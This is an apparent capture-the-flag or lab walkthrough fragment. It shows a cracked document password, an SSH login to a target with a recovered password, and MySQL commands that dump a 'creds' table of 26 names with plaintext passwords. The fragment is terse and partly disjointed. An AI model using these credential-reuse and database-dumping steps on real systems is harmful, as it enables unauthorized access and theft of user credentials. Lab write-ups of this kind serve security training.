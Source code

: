 Documentation.docx:987654321
1 password hash cracked, 0 left

sudo apt-get update && sudo apt-get install libreoffice

libreoffice &
987654321

ssh jason@$TARGET
C4mNKjAtL2dydsYa6

mysql -u jason -pC4mNKjAtL2dydsYa6
show databases;
use users;
show tables;
show columns from creds;
select id, name, password from creds;

+-----+--------------------+----------------+
| id  | name               | password       |
+-----+--------------------+----------------+
|   1 | Hiroko Monroe      | YJE25AGN4CX    |
|   2 | Shelley Levy       | GOK34QLM1DT    |
|   3 | Uriel Velez        | OAY05YXS1XN    |
|   4 | Vanna Benton       | EAU86WAY1BY    |
|   5 | Philip Morales     | ONC53GFI2ID    |
|   6 | Joshua Morgan      | AHJ46CDW4LH    |
|   7 | Hadley Hanson      | YVD16TIY3QI    |
|   8 | Branden Moses      | ZBE71RLJ5HN    |
|   9 | Pandora Sears      | WYP33WEF5GY    |
|  10 | Orla Lambert       | MLZ15XKR8SF    |
|  11 | Maite Moran        | FOS06OOU2DF    |
|  12 | Cassandra Mccarthy | SIB53CEH5DE    |
|  13 | Leroy Sullivan     | HIC68RBH5EI    |
|  14 | Wyoming Quinn      | LJM77SJC6BN    |
|  15 | Asher Wise         | HHP00OHN8OD    |
|  16 | Shelby Garrison    | SOI55QEP2QC    |
|  17 | Garth Landry       | YOX30FPX2UK    |
|  18 | Cailin Lang        | VYE12SKJ3BG    |
|  19 | Tyrone Gross       | GCM52PLH8LH    |
|  20 | Moana Bernard      | EMK37PGI1BC    |
|  21 | Nell Forbes        | YXY78WCW4GX    |
|  22 | Acton Mccormick    | RSI82CFW9QR    |
|  23 | Odessa Knapp       | CXR22UOP5PV    |
|  24 | Gary Phelps        | KDN93TNB6IB    |
|  25 | Jonah Byrd         | GWK11PET1YK    |
|  26 | Lewis Clements     | ACJ89KMH8IX    |
